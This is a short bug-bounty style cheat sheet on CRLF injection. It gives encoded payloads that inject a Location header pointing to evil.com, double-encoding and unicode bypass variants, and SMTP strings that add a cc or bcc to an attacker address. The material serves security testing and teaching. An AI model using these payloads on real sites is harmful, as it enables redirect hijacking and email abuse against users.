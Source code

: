 # CRLF Injection

## Introduction
A CRLF Injection attack occurs when a user manages to submit a CRLF into an application. This is most commonly done by modifying an HTTP parameter or URL.

## Where to find
It can be found anywhere, always check the request and response. Try to search for parameters that lead to redirects, you can see the response is (301, 302, 303, 307, 308).

## How to exploit
1. Basic payload
```
https://example.com/?lang=en%0D%0ALocation:%20https://evil.com/

### Response:
HTTP/1.1 200 OK
Content-Type: text/html
Date: Mon, 09 May 2016 14:47:29 GMT
Set-Cookie: language=en
Location: https://evil.com/
```

2. Double encode
```
https://example.com/?lang=en%250D%250ALocation:%20https://evil.com/
```

3. Bypass unicode
```
https://example.com/?lang=en%E5%98%8A%E5%98%8DLocation:%20https://evil.com/
```

4. SMTP add Second Email
```
,
&
%20
|
%0a%0dcc:
%0a%0dbcc:
%0d%0acc:
%0d%0abcc:

#Example: Add Second Email
email=victim@mail.tld%0d%0acc:attacker@mail.tld
```

## References
* [@filedescriptor](https://blog.innerht.ml/twitter-crlf-injection/)
* [EdOverflow](https://github.com/EdOverflow/bugbounty-cheatsheet/blob/master/cheatsheets/crlf.md)
